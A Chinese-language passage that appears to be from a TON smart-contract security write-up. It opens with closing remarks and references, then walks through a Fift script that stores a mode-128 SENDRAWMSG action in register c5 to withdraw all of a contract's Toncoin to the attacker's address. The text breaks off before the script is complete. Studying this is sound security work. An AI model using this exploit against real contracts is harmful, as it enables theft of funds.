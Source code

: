 在智能合约开发过程中，我们需要特别注意合约中的每一个细节，以确保其安全性。希望这篇文章能帮助你更好地理解 TON 智能合约以及如何防范潜在的安全问题。

## 参考资料

1. TON 官方文档：https://ton-blockchain.github.io/docs/
2. FunC 语言文档：https://ton-blockchain.github.io/docs/#/func/README
3. Fift 语言文档：https://ton-blockchain.github.io/docs/#/fift/README
4. The Open Network (TON) 官方网站：https://ton.org/

---
### 黑客入侵的消息解析

要发送消息，我们需要编写一个 fift 脚本（它将生成一个包含我们将发送到 TON 网络的 cell 结构的包），让我们从消息体开始，为此我们需要 `<b b>`

```
"TonUtil.fif" include
<b  b> =: message
```

根据文档，消息本身可能如下所示（以下代码为 FunC）：

```
var msg = begin_cell()
  .store_uint(0x18, 6)
  .store_slice(addr)
  .store_coins(amount)
  .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
  .store_slice(message_body)
  .end_cell();
```

因此，我们在消息体中写入我们要提取 Toncoin 的地址，将金额表示为 0 Gram，不在消息体中写入任何内容，我们得到：

```
"TonUtil.fif" include
<b 0x18 6 u, 0 your address Addr, 0 Gram, 0 1 4 + 4 + 64 + 32 + 1 + 1 + u, b> =: message
```

但是在寄存器 `c5` 中，我们需要放入的不是消息，而是用于该消息的操作。我们将使用 `SENDRAWMSG` 发送消息。

首先，让我们理解如何在 `c5` 寄存器中存储数据。根据[文档](https://ton-blockchain.github.io/docs/#/smart-contracts/tvm_overview?id=result-of-tvm-execution)，`c5` 是一个 cell，包含上一个操作和最后一个操作的链接。我们没有上一个操作，所以会有一个空的 `Builder`。

```
<b <b b> ref, 这里是消息发送 ref, b>
```

> `ref` - 将 Cell c 的引用添加到 Builder b。

接下来是 `SENDRAWMSG`，我们从[这里的第 371 行](https://github.com/ton-blockchain/ton/blob/d01bcee5d429237340c7a72c4b0ad55ada01fcc3/crypto/block/block.tlb)直接从块中获取函数的“代码”，并查看根据[TVM 文档第 137 页](https://ton-blockchain.github.io/docs/tvm.pdf)，应收集的参数：

- 函数“代码”：0x0ec3c86d 32 u
- 消息发送模式，在我们的情况下是 128，因为我们想要提取所有资金 128 8 u
- 消息 `message`

> x u - 位数为 x 的无符号整数
